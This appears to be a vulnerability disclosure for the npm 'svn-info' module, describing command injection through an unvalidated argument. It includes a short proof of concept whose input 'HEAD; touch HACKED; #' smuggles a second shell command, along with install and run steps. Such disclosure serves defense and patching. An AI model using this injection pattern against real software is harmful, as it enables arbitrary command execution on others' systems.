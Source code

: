 # :bug: Description

The `svn-info` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
require('svn-info')('path/to/folder/under/svn', 'HEAD; touch HACKED; #', function(err, info){})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i svn-info # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
